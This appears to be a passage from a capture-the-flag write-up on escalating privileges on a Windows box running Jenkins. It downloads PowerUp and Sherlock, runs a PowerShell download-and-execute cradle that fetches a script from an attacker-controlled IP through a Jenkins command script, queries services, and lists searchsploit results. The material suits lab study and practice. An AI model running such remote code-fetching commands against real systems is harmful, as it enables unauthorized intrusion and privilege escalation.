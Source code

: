 #### 4.1. Preparing PS scripts
```
# wget -q https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/privesc/PowerUp.ps1
# wget -q https://raw.githubusercontent.com/rasta-mouse/Sherlock/master/Sherlock.ps1
# echo 'Invoke-AllChecks' >> PowerUp.ps1
# echo 'Find-AllVulns' >> Sherlock.ps1
```


#### 4.2. PowerUp script
```
# cmd="echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.15.202:8888/PowerUp.ps1') | powershell -noprofile -"
# python jenkins_cmd.py $url "$cmd" > PowerUp.txt
```
Results: `jenkins.exe` service can be replaced with malicious code


#### 4.3. Service config info
```
C:\Users\Administrator\.jenkins>sc query state= all
C:\Users\Administrator\.jenkins>sc qc jenkins
```
Results: Service will auto-start on OS reboot (clean state of the box => our code will never execute)
Output: `cmd_sc_qc_jenkins.txt`, `cmd_sc_query.txt`


#### 4.4. searchsploit
```
# searchsploit privilege escalation Microsoft Windows 10 10586 --json | jq '.RESULTS[]' | grep 'Exploit Title\|Path'
  "Exploit Title": "Microsoft Windows 10 (Build 10586) - 'IEETWCollector' Arbitrary Directory/File Deletion Privilege Escalation",
  "Path": "/usr/share/exploitdb/exploits/windows/local/41901.cs"
  "Exploit Title": "Microsoft Windows 8.1 Update 2 / 10 10586 (x86/x64) - NtLoadKeyEx User Hive Attachment Point Privilege Escalation (MS16-111)",
  "Path": "/usr/share/exploitdb/exploits/windows/local/40429.cs"
```
Results: exploits published after box was released (must try something else)
